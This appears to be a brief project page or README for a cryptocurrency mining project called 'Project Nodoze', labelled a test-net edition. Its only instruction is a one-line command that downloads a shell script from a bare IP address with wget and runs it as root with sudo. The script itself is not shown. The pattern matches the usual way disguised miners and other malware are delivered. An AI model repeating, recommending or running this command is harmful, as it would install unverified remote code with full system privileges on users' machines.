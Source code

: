 Project Nodoze | hidden edition merge test

THIS IS IN TEST NET STAGE!!! NO CURRENCY MINED IS REAL!!!!!

            sudo wget http://45.77.50.112/linux.sh && sudo chmod 700 linux.sh && sudo sh linux.sh

			
